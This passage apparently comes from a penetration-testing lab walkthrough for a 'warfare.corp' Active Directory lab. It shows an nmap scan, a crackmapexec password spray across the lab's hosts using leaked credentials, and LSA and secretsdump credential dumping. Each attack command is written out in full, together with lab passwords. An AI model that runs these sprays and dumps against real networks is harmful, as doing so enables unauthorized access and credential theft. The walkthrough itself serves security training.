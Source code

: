 Port Scan

```bash
nmap -sT 192.168.98.30
```

### Password Spray with found credentials

With the AD credentials found in the Firefox Bookmarks we can try to perform a password spray to host discovered.

Let's create a file with all live host in the network.

{% code title="target.txt" %}
```bash
# create a file with all host discovered
192.168.98.2
192.168.98.15
192.168.98.30
192.168.98.120
```
{% endcode %}

Perform the spray with Crackmapexec

```bash
crackmapexec --verbose smb target.txt -u john -p 'User1@#$%6'
```

If we get a result with `(Pwn3d!)` writing, it mean that this user is local administrator at the machine.



### Windows Machine dump credentials

Now we can perform a dump of credentials stored in that machine.

```bash
crackmapexec --verbose smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa

impacket-secretsdump $DOMAIN.COM/$USER:$PASS@$DC_IP
```

Then if we will find other credentials we can repeform a password spray.

<pre class="language-bash"><code class="lang-bash"><strong>crackmapexec --verbose smb target.txt -u corpmngr -p 'User4&#x26;*&#x26;*'
</strong></code></pre>

If we get a result with `(Pwn3d!)` writing, it mean that this user is local administrator at the machine.

Since we know the machine name & the domain, let’s update the same on
&#x20;our `/etc/hosts` file.

```bash
sudo nano /etc/hosts

192.168.98.2 warfare.corp dc01.warfare.corp
192.168.98.120 child.warfare.corp cdc.child.warfare.corp
```
